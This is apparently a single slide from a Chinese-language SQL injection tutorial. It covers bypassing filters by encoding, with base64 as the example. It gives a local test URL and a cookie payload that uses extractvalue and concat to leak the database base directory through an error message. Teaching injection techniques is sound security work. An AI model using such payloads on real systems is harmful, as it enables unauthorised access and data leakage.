

SQL注入漏洞
5.3.2、 SQL绕过汇总
3、编码（url,hex，base64）
(3)base64编码

http://127.0.0.1/cepo/

cookie（base64编码）: admin1')and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))#